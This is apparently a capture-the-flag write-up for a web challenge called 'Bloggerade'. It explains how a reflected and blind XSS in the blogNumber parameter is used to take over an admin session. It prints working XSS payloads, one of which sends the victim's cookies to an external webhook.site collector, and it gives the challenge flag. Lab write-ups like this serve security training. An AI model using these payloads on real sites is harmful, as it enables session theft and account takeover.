

Challenge: Bloggerade
Points: 200
Category: Web

This application allows us to enter an input, which is then reviewed by the admin. These kind of situations generally have chances of Blind XSS which can be used to steal Session Cookies.

First, let's check the possibility of XSS. We can see that the existing blogs have a Blog Number, which is being reflected on the page. So let's try to reflect out Session ID there using "%3Cscript%3Edocument.write(document.cookie);%3C/script%3E" as input to the blogNumber parameter.

Now, it's time for Blind XSS. We will setup a a platform to catch our requests/responses at https://webhook.site.
Payload: 2%22%3E%3Cimg%20src=x%20onerror=this.src=%27https://webhook.site/481ad6c7-c027-4329-9062-0225dc0e8044/?%27%2bdocument.cookie;%3E
Parameter: blogNumber

We get our cookies.

Now, let's use the whole URL as a payload.
Payload: http://18.225.156.202:9090/blog?blogNumber=2%22%3E%3Cimg%20src=x%20onerror=this.src=%27https://webhook.site/481ad6c7-c027-4329-9062-0225dc0e8044/?%27%2bdocument.cookie;%3E
Parameter: url
Preparation: Change the input type of url from url to text so that we can enter our payload.

Result: 

We got the session id: admincokie123thiswillallowyoutogototheadminpanel. Now we will use this in place of our session  id to get access to the admin's session and then we click "Admin Panel".

FLAG: Amazon{XSS_b0t_G0t_Pwn3d}